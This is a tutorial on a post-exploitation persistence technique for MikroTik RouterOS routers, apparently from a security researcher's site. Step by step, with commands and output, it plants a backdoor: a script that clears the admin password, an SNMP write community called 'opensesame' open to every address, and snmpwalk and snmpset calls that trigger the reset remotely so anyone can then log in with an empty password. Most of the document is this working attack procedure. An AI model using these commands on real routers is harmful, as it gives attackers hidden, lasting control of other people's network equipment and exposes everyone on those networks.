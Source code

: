 # Implementing a Password Reset Function for Persistent Access in MikroTik RouterOS

This tutorial demonstrates a post-exploitation technique to establish persistent access in MikroTik RouterOS by implementing a password reset function triggered via SNMP. We will create a MikroTik script named "password reset" to clear the admin password, enable SNMP write access using the community string "opensesame," and confirm the SNMP service is operational. The process concludes with using snmpwalk to query available scripts and snmpset to execute the password reset script remotely via SNMP, ensuring continued access post-authentication.

**Step 1: Create the Password Reset Script**

1.  **Access the MikroTik CLI**:

    * You can access the MikroTik CLI via SSH, Telnet, or the Winbox terminal. For SSH, use a terminal application like PuTTY or the built-in terminal on your operating system.
    * Connect to your MikroTik router using its IP address and login credentials.

    ```sh
    ssh admin@<router_ip_address>
    ```
2.  **Create the Script**:

    * Use the following command to create a new script named "password reset" that changes the password of the "admin" user to an empty password.

    ```sh
    /system script add name="password reset" source="/user set admin password=\"\""
    ```
3.  **Verify the Script**:

    * Verify that the script has been created correctly by listing all scripts.

    ```sh
    /system script print
    ```

    Output:

    ```
    [admin@MikroTik] > /system script add name="password reset" source="/user set admin password=\"\""
    [admin@MikroTik] > /system script print
    Flags: I - invalid
     0   name="password reset" owner="admin" policy=ftp,reboot,read,write,policy,test,password,sniff,sensitive,romon
         dont-require-permissions=no run-count=0 source=/user set admin password=""
    ```

**Step 2: Enable SNMP Write Access**

1.  **Enable SNMP**:

    * Enable the SNMP service on the router.

    ```sh
    /snmp set enabled=yes
    ```
2.  **Configure SNMP Community**:

    * Add an SNMP community "opensesame" with write access.

    ```sh
    /snmp community add name=opensesame addresses=0.0.0.0/0 write-access=yes
    ```
3.  **Verify SNMP Configuration**:

    * Verify that the SNMP service and community have been configured correctly.

    ```sh
    /snmp print
    /snmp community print
    ```

    Output:

    ```
    [admin@MikroTik] > /snmp print
             enabled: yes
             contact:
            location:
           engine-id:
         trap-target:
      trap-community: public
        trap-version: 1
      trap-generators: temp-exception
    [admin@MikroTik] > /snmp community print
    Flags: * - default, X - disabled
     #    NAME                ADDRESSES                                                 SECURITY   READ-ACCESS WRITE-ACCESS
     0 *  public              ::/0                                                      none       yes         no
     1    opensesame          0.0.0.0/0                                                 none       yes         yes
    ```

**Step 3: Query Scripts Using SNMP**

1.  **Install SNMP Tools**:

    * Ensure that you have SNMP tools installed on your system. On Debian-based systems, you can install them using:

    ```sh
    sudo apt-get install snmp
    ```
2.  **Use `snmpwalk` to Query Scripts**:

    * Use the `snmpwalk` command to query the OID `1.3.6.1.4.1.14988.1.1.8` to list the scripts.

    ```sh
    snmpwalk -v 2c -c opensesame <router_ip_address> 1.3.6.1.4.1.14988.1.1.8
    ```

    * This command will list the scripts available on the MikroTik router. Note that the MIB table OID      \
      values may differ.

    Output:

    ```
    SNMPv2-SMI::enterprises.14988.1.1.8.1.1.2.1 = STRING: "password reset"
    SNMPv2-SMI::enterprises.14988.1.1.8.1.1.3.1 = INTEGER: 0
    ```

**Step 4: Run the Script Using SNMP**

1.  **Use `snmpset` to Run the Script**:

    * Use the `snmpset` command to run the "password reset" script. Replace `<router_ip_address>` with the IP address of your MikroTik router.      \
      Ensure you are using the correct MIB table values for your script, from the snmpwalk command above.

    ```sh
    snmpset -c opensesame -v2c <router_ip_address> 1.3.6.1.4.1.14988.1.1.8.1.1.3.1 i 1
    ```

    Output:

    ```
    SNMPv2-SMI::enterprises.14988.1.1.8.1.1.3.1 = INTEGER: 1
    ```

    * This command will execute the "password reset" script, setting the admin password to an empty string.      \
      You can now authenticate to the router with `ssh admin@router_ip_address`.

**Summary**

This tutorial outlines adding a password reset function to MikroTik RouterOS as a post-exploitation technique for maintaining persistent access after authentication. It involves creating a "password reset" script to clear the admin password, enabling SNMP write access with the "opensesame" community string, verifying SNMP functionality, querying scripts with snmpwalk, and executing the script via snmpset. Administrative access to the router and basic networking knowledge are required.

***

**Author**: Hacker Fantastic\
**Date**: April 17, 2025\
**Website**: [https://hacker.house](https://hacker.house)
